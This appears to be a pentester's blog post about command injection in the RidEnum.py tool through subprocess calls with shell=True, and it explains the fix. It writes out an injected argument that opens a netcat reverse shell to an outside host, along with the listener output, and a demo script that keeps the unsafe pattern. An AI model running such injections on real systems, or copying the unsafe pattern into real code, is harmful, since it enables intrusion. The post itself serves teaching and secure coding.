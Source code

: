 ![Linkedin](Post%20Images/linkedin.png) [Linkedin](https://www.linkedin.com/in/ryangore/) | ![Github](Post%20Images/github.png) [Github](https://github.com/0v3rride)

# Python's Risky Subprocess Module & Leveraging CMDi In A Pentesting Tool
_____________________________________________________________________

I'd never thought I would have enjoyed reading other individuals source code as much as I do now. There's just something so gratifying about it. Dissecting someone's application, script or program looking for a flaw to leverage or a lapse in logic that can be manipulated is exhilarating. 

Reading source code from other individuals can give you an insight into a lot of things like some of the below items:
  * New syntax and syntactical methods that you never knew existed in a language
  * How to get code to execute by bypassing AV, countermeasures, etc. (if looking at a piece of malware)
  * What not to do when developing an application, script or program of any sort
  * If alcohol was present during development ;)
  
## Python's Risky Subprocess Module
Python is a fantastic language. It's one of my favorites alongside PowerShell, C# and some others. However, like all computer languages, it doesn't come without its flaws or dangerous functions and methods. You can read more about some of those dangerous functions and methods in the below links:
 1. [Dangerous Python Functions Part 1](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html)
 2. [Dangerous Python Functions Part 2](https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html)
 3. [OpenStack: Use Subprocess Securely](https://security.openstack.org/guidelines/dg_use-subprocess-securely.html)
 4. [OpenStack: Avoiding Shell Injection](https://security.openstack.org/guidelines/dg_avoid-shell-true.html)
 5. [A Medium Blog About Python Shell Injection](https://medium.com/python-pandemonium/a-trap-of-shell-true-in-the-subprocess-module-6db7fc66cdfd)
 6. [Official Python Documentation](https://docs.python.org/3.7/library/subprocess.html#popen-objects)
 
The links above focus more in which a user is prompted to provide input via the `input` function in Python, etc. Leveraging command injection via command-line arguments that will be parsed by a script will be a little trickier, but it's still very simple to do.
 
## The Vulnerability
The vulnerability itself is not super-duper serious as it's a script that's only used by a specific group of individuals and you need access to run it locally. While working on a CTF problem involving SIDs and looking for another tool to compare with Impacket's lookupsid.py script, I came across a tool written by Dave Kennedy (ReL1K) called RidEnum.py. I was interested in how both tools were obtaining the domain and local machine SID, but that's not important. However, I noticed in the source code on the [github page](https://github.com/trustedsec/ridenum/blob/master/ridenum.py) that the tool is using `Subprocess.Popen` objects to execute a shell command. These appear on the following lines:
 * 62
 * 78
 * 111
 * 256

There are at least two arguments that helped me obtain code execution, which was the argument for the remote host's IP address and the `auth` argument. If you look closely, you'll note that the variable `command` which will store the string representation of the command to be executed takes the `auth` (optional username + % + optional password) and the IP argument and then places them into the string using the "old style" string formatting operator (`%`).

### Two things can be taken into consideration at this point (links 3, 4 and 5 above do a great job explaining the problems):

1. The `shell` parameter in both calls are set to `true`. That's a no-no, especially if you allow a user to supply input to your script. In simple terms, this tells Python to execute the string containing the command(s) as if you were doing it in a bash shell.

2. The `command` variable is a **string** variable that contains the entirety of a bash command.

Here's the help documentation for ridenum.
```
Example: ./ridenum.py 192.168.1.50 500 50000 /root/dict.txt /root/user.txt

Usage: ./ridenum.py <server_ip> <start_rid> <end_rid> <optional_username> <optional_password> <optional_password_file> <optional_username_filename>
```
As I said before, doing this via command line arguments is a little trickier. One would expect that all they would have to do is excute the following command `./ridenum.py 10.10.10.10;id; 100 1000 0v3rride`. This is incorrect, because all you're doing is terminating the `ridenum.py` script prematurely without giving it all of the required arguments, calling the bash command `id` and then specifying abunch of junk after the fact that has no meaning in bash (`100 1000 0v3rride`). Take a look at point two again above and notice the keyword 'string'.

Let's execute ridenum and inject a Netcat command to give us a reverse shell.
```
./ridenum.py "1.1.1.1; nc 192.168.1.126 1234 -c bash;" 0 3 "0v3rride" "mysecretpassword"
```

Result:
```
listening on [any] 1234 ...
connect to [192.168.1.126] from (UNKNOWN) [192.168.1.111] 53370
whoami
tester
```

Note the double quotes surrounding the `IP` argument. The string that represents the `IP` argument is evaluated by the `Popen` object. It's similar to how the `Invoke-Expression` cmdlet works in PowerShell. It evaluates a string that's valid syntax and executes it. Also, note how I placed the `nc` command within the `IP` argument. Why do I need two `;`? If I don't add another `;` to terminate, `ridenum.py` tries creating a list of users enumerated during RID cycling, which kills the reverse shell immediately. So placing the second `;` after `-c bash` will keep the reverse shell alive until you exit it.

### More on the `auth` argument
There's an important point I want to address concerning command injection via the `auth` argument. Take a look at line 59 (`command = 'rpcclient -U "%s" %s -c "lsaquery"' % (auth, IP)`) on the GitHub page for ridenum. Note that the data supplied for the `auth` argument is enclosed in additional double-quotes. Thus, the argument will be treated as an actual string rather than an actual bash command. To confirm this, I removed the double quotes that the `auth` argument (`user%pass`) was enclosed in and was able to obtain a reverse shell. So this means that command injection via the `auth` argument being used on line 59 will not be successful. However, on line number 73 (`command = 'rpcclient -U "" %s -c "lookupnames %s"' % (auth, IP)`) a shell command call to invoke rpcclient is made again to use the lookupnames command, but this time the argument given for `auth` is not enclosed in double-quotes. This is where the command will be injected if the `auth` argument is used for injection. Also, take note that this time the `IP` argument is enclosed in double-quotes.

## The Fix
Command/Shell injection via a Python script is that simple. The fix to this is also pretty simple. Get rid of the `shell=True` or explicitly use `shell=False`. Also, breaking down the string referenced by the `command` variable into a list of strings would fix the issue too. Doing this will not treat each string value in subsequent indices as an argument to the string in the first index. You could enclose arguments in literal quotes, but that's not necessary if you implement the two former options.

For example changing `subprocess.Popen(command, stdout=subprocess.PIPE, shell=True)` to `subprocess.Popen(["rpcclient", "-U", "{}".format(auth), "{}".format(ip), "-c", "lsaquery"], stdout=subprocess.PIPE)` removes the chance for command injection. `shell=False` does not have to be explicitly stated as it is a default.


#### You can play with the following source code below to get a better understanding.

```
import subprocess; 
 
def unsafe_ping(server):
  return subprocess.check_output('ping -c 1 %s' % server, shell=True);

print(unsafe_ping("8.8.8.8; id").decode("UTF-8"));


# def safe_ping(server):
#     return subprocess.check_output(['ping', '-c', '1', server], shell=False);

# print(safe_ping("8.8.8.8; id").decode("UTF-8"));


userinput = input("give some input: ");

print("Test 1: shell=true, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=True).decode("UTF-8"));

#Command injection doesn't seem to work on any of the below

print("Test 3: shell=true, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=True).decode("UTF-8"));

print("Test 2: shell=false, string command");
print(subprocess.check_output("echo {}".format(userinput), shell=False).decode("UTF-8"));

print("Test 4: shell=false, list of strings");
print(subprocess.check_output(["echo", "{}".format(userinput)], shell=False).decode("UTF-8"));
```

## Resources
 1. [Dangerous Python Functions Part 1](https://www.kevinlondon.com/2015/07/26/dangerous-python-functions.html)
 2. [Dangerous Python Functions Part 2](https://www.kevinlondon.com/2015/08/15/dangerous-python-functions-pt2.html)
 3. [OpenStack: Use Subprocess Securely](https://security.openstack.org/guidelines/dg_use-subprocess-securely.html)
 4. [OpenStack: Avoiding Shell Injection](https://security.openstack.org/guidelines/dg_avoid-shell-true.html)
 5. [A Medium Blog About Python Shell Injection](https://medium.com/python-pandemonium/a-trap-of-shell-true-in-the-subprocess-module-6db7fc66cdfd)
 6. [Official Python Documentation](https://docs.python.org/3.7/library/subprocess.html#popen-objects)
